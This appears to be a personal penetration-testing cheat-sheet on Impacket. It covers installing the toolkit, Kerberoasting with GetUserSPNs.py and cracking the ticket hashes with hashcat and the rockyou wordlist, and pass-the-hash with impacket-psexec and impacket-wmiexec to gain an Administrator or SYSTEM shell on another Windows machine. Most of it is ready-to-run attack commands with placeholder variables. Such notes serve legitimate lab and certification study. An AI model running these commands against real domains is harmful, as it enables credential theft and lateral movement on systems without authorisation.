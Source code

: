 # Impacket 

Note: This doc should be placed in an eventual AD folder, once I get that far.
## Install

install impacket with:
`pipenv install impacket`
this will create a virtualenv in `/home/${local_user}/.local/share/virtualenvs/${VENV_NAME}`
you can then:
```
export IMPACKET_SCRIPTS=$(pipenv --venv)/bin
```
Now, you can run impacket scripts with:
```
python3  ${IMPACKET_SCRIPTS}/${script} ...
```

## Kerberoasting

check for SPN accounts:
```
python3 ${IMPACKET_SCRIPTS}/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PASSWORD} 

```
Now, we can request the TGS for the found user:

```
python3 $IMPACKET_SCRIPTS/GetUserSPNs.py -dc-ip ${DC_IP} ${DOMAIN}/${DOMAIN_USER}:${DOMAIN_USER_PW} -request-user ${SPN_ACCOUNT} -outputfile tgs.txt 


```

Now, you can crack the password in the tgs file:

```
hashcat -a 0 -m 13100 tgs.txt /usr/share/wordlists/rockyou.txt
```


## Pass Admin hash psexec

Assuming you've found an NTLM admin hash, you might be able to get a reverse shell onto another machine with `impacket-psexec`:

```
impacket-psexec -hashes 00000000000000000000000000000000:${NTLM_HASH} Administrator@$RHOST
```
Format is `${LM_HASH}:${NT_HASH}` - when using the NTLM hash, just put `32 * 0` in the `LM_HASH` section.

a similar command is `impacket-wmiexec`, which gets us a shell as Administrator, rather than the SYSTEM.

